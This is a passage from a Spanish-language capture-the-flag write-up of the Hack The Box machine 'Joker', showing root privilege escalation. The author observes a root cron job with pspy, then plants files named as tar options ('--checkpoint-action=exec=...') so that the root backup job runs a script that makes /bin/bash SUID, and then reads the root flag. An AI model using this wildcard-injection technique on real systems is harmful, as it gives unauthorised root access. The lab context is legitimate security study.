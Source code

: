 Utilizo ```scp``` para subir el ```pspy```

```null
scp /opt/pspy alekos@10.10.10.21:/tmp/pspy
pspy                                                                 100% 3006KB 704.1KB/s   00:04 
```

El usuario root está ejecutando un script de bash a intervalos regulares de tiempo

```null
2023/02/17 16:00:01 CMD: UID=0    PID=5143   | /usr/sbin/CRON -f 
2023/02/17 16:00:01 CMD: UID=0    PID=5147   | /bin/sh /root/backup.sh 
2023/02/17 16:00:01 CMD: UID=0    PID=5148   | /bin/sh /root/backup.sh 
2023/02/17 16:00:01 CMD: UID=0    PID=5149   | /bin/sh /root/backup.sh 
```

Pero no puedo ver en que consiste. Voy a suponer que el directorio de antes está relacionado. Descomprimo un archivo para ver su estructura y borro todos los comprimidos

```null
alekos@joker:~/backup$ tar -xf dev-1514134201.tar.gz
alekos@joker:~/backup$ rm -rf dev-1*
alekos@joker:~/backup$ ls
application.py  data  __init__.py  models.py  static  templates  utils.py  views.py
```

En el directorio ```development``` hay lo mismo

```null
alekos@joker:~/development$ ls
application.py  data  __init__.py  models.py  static  templates  utils.py  views.py
```

Lo más probable es que esté utilizando wildcards para referenciar a todo lo que hay dentro del directorio. Si creo un archivo con un nombre cuyo valor sea un parámentro, lo va a interpretar. En [GTFObins](https://gtfobins.github.io/gtfobins/tar/#shell) está contemplado

<img src="/writeups/assets/img/Joker-htb/11.png" alt="">

Creo un script en python que se encargue de asignarle SUID a la bash

```null
import os

os.system("chmod u+s /bin/bash")
```

Agrego los archivos con nombres de parámetros

```null
alekos@joker:~/development$ touch -- --checkpoint=1
alekos@joker:~/development$ touch -- '--checkpoint-action=exec=python3 test.py'
```

En un máximo de 5 minutos la bash pasa a ser SUID y ver la segunda flag

```null
alekos@joker:~/backup$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1041576 May 16  2017 /bin/bash
alekos@joker:~/backup$ bash -p
bash-4.3# cat /root/root.txt
11d683fbc309f6e3794fe81c33c117ac
```